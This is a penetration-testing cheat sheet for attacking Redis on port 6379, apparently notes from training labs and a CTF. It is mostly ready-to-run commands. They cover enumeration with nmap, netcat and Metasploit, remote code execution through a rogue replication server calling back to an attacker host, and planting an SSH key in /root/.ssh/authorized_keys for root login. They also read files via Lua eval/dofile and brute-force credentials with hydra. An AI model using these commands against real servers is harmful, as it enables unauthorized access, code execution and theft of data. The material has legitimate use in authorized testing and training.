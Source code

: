 # 6379 (Redis)

## Enumeration

### Automatic

#### nmap

```bash
nmap --script redis-info -sV -p 6379 <IP>
```

#### Metasploit

```bash
msf> use auxiliary/scanner/redis/redis_server
```

### Manual

#### Telnet, Netcat, Redis-cli

```bash
telnet <IP> 6379
nc -vn <IP> 6379
redis-cli -h <IP>
```

Commands:

```bash
# Check version info etc. as well as the ability to run commands without auth
INFO
# List all the stored keys.
KEYS *
# Get the value of a stored key
GET <KEY>
# Other
config get *
config get dir
```

#### Curl Gopher

```
curl gopher://demo1.ine.local:6379/_GET%20flag --max-time 1
```

## Exploitation

### Rogue Server

[https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server
cd redis-rogue-server/
./redis-rogue-server.py --rhost 192.168.76.69 --lhost 127.0.0.1
# or
python3 redis-rogue-server.py --rhost 192.168.76.69 --rport 6379 --lhost 192.168.49.76 --lport 6379

```

### Unauthenticated Redis Server

#### Metasploit

```bash
msfconsole
search redis
use exploit/linux/redis/redis_replication_cmd_exec
set RHOSTS <IP>
set LHOST <IP>
set SRVHOST <IP>
exploit
```

### Overwriting Arbitrary Files

#### Redis-cli

```bash
# Generate Key Pair
ssh-keygen
ssh-key
<enter>
<enter>
# Copy key file and place onto Redis server naming it test
(echo -e "\n\n"; cat /root/ssh-key.pub; echo -e "\n\n") > key
cat key | redis-cli -h demo2.ine.local -x set test
# Dump the key to the target machine /root/.ssh/ directory using redis-cli
redis-cli -h demo2.ine.local
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
save
# We have successfully uploaded the public key as authorized_keys.
# Access the target machine
ssh -i ssh-key root@demo2.ine.local
```

#### Metasploit

```bash
use auxiliary/scanner/redis/file_upload
set RHOSTS demo2.ine.local
set LocalFile /root/key
set RemoteFile /root/.ssh/authorized_keys
exploit
```

### Attacking Protected Redis

#### Metasploit

```bash
use auxiliary/scanner/redis/redis_login
set RHOSTS demo3.ine.local
exploit
# We found a credential
redis-cli -h demo3.ine.local
AUTH daniel
KEYS *
GET <KEY>
```

### Eval Abuse

> CTF Ex: Doing some research it is found that abuse of the eval and dotfile can be used

```bash
# Get the contents of the user.txt file
redis-cli -h <IP> -p 6379 eval "dofile('C:\\\Users\\\enterprise-security\\\Desktop\\\user.txt')" 0

```

## Brute Force

```bash
msf> use auxiliary/scanner/redis/redis_login
nmap --script redis-brute -p 6379 <IP>
hydra –P /path/pass.txt redis://<IP>:<PORT>  # 6379 is the default
```

